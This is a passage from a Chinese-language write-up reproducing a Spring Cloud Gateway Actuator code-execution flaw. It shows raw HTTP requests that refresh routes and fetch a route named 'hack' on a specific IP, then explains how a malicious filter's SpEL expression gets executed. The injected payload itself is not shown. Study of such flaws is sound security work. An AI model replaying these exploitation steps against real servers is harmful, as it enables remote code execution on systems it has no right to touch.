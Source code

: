 ```
}
```

## 3、刷新过滤器（POST）

```
POST /actuator/gateway/refresh HTTP/1.1
Host: 47.120.13.249:8080
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: keep-alive
Content-Length: 3
Content-Type: application/x-www-form-urlencoded
Origin: null
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0

a=1
```

## 4、访问过滤器ID（GET）

```
GET /actuator/gateway/routes/hack HTTP/1.1
Host: 47.120.13.249:8080
Proxy-Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36 Edg/112.0.1722.48
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
```

# 3、原理分析

## 问题

为什么添加过滤器（路由）会导致代码执行？

## 流程

1. 1、开启Acutator，可以通过接口列出路由（包括过 滤器），如：`/actuator/gateway/routes` 
2. 2、可以通过`/gateway/routes/{id_route_to_create}` 创建路由 
3. 3、通过`/actuator/gateway/refresh`刷新路由 
4. 4、当路由带有恶意的Filter，里面的spEL表达式会被执行
